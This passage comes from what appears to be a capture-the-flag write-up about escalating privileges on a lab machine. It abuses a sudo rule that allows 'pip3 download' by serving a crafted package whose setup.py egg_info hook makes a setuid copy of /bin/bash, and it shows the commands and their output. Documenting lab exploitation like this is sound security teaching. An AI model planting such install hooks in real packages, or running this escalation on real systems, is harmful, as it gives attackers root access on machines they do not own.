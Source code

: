 It’s getting a 404. `curl` will give the same result.

#### Update Permissions

The repo is marked as private, and the `pip` command doesn’t have john’s creds. I could add them to the url, but that would make it not fit the `sudo` pattern any more. I could also potentially create a config file to store the creds..

Instead, I’ll just make the repo public by clicking on Settings. I’ll upcheck this box and click “Update Settings”:

![image-20230425133359609](/img/image-20230425133359609.png)

Now it works:

```

john@only4you:~$ sudo /usr/bin/pip3 download http://127.0.0.1:3000/john/Test/raw/master/own_this_is_for_you-0.0.1.tar.gz
Collecting http://127.0.0.1:3000/john/Test/raw/master/own_this_is_for_you-0.0.1.tar.gz
  Downloading http://127.0.0.1:3000/john/Test/raw/master/own_this_is_for_you-0.0.1.tar.gz (810 bytes)
  Saved ./own_this_is_for_you-0.0.1.tar.gz
Successfully downloaded own-this-is-for-you

```

Now only that, but the code executed:

```

john@only4you:~$ ls -l /tmp/0xdf 
-rw-r--r-- 1 root root 0 Apr 25 17:54 /tmp/0xdf

```

`/tmp/0xdf` is there and owned by root.

#### Shell

To get a shell, I’ll update my `setup.py`:

```

from setuptools import setup
from setuptools.command.egg_info import egg_info
import os

class RunEggInfoCommand(egg_info):
    def run(self):
        os.system("cp /bin/bash /tmp/0xdf")
        os.system("chmod 4777 /tmp/0xdf")
        egg_info.run(self)

setup(
    name = "own_this_is_for_you",
    version = "0.0.1",
    license = "MIT",
    packages=[],
    cmdclass={
        'egg_info': RunEggInfoCommand
    },
)

```
